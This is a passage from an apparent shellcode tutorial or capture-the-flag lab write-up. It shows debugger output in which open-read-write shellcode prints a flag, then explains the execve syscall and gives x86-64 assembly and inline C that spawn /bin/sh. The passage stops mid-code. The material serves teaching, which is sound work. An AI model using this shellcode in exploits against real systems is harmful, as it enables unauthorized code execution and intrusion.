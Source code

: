 ```assembly
 ► 0x555555555160 <run_sh+71>    syscall  <SYS_write>
        fd: 1 (/dev/pts/2)
        buf: 0x7fffffffd848 ◂— 'flag{this_is_open_read_write_shellcode!}\n'
        n: 0x30
```

(the address is changed in the second run for me btw)

When we execute the `ni` command, it outputs 48 bytes (0x30) from the memory address `0x7fffffffe2c8` where the data is stored.

`flag{this_is_open_read_write_shellcode!}`

---

### execve Shellcode

**execve shellcode** executes arbitrary programs, typically used to spawn a shell on the target system. When people refer to "shellcode" without further specification, they're usually talking about this type.

| syscall | rax  | arg0 (rdi)           | arg1 (rsi)              | arg2 (rdx)              |
| ------- | ---- | -------------------- | ----------------------- | ----------------------- |
| execve  | 0x3b | const char *filename | const char *const *argv | const char *const *envp |

The `argv` parameter represents <u>arguments passed to the executable</u>, while `envp` represents <u>environment variables</u>. For our purposes of just executing a shell, we can set both to `NULL`. In Linux, common executables are stored in the `/bin/` directory, including the shell program we want to execute.

Our goal is to create shellcode that executes execve("/bin/sh", null, null) to spawn a shell.

```x86asm
;Name: execve.S

mov rax, 0x68732f6e69622f ; hex representation of "/bin/sh"
push rax
mov rdi, rsp  ; rdi = "/bin/sh\x00"
xor rsi, rsi  ; rsi = NULL
xor rdx, rdx  ; rdx = NULL
mov rax, 0x3b ; rax = sys_execve
syscall       ; execve("/bin/sh", null, null)
```

- `rax`: 0x3b (syscall number for execve)
- `rdi`: pointer to the string "/bin/sh\x00" (filename to execute)
- `rsi`: NULL (argv array pointer - set to NULL in this simple case)
- `rdx`: NULL (envp array pointer - set to NULL in this simple case)
- `syscall`: triggers the system call to execute the program

#### Compiling execve Shellcode and Run

```c
// File name: execve.c
// Compile Option: gcc -o execve execve.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"

    "mov rax, 0x68732f6e69622f\n"
    "push rax\n"
    "mov rdi, rsp  # rdi = '/bin/sh'\n"
    "xor rsi, rsi  # rsi = NULL\n"
    "xor rdx, rdx  # rdx = NULL\n"
    "mov rax, 0x3b # rax = sys_execve\n"
    "syscall       # execve('/bin/sh', null, null)\n"
```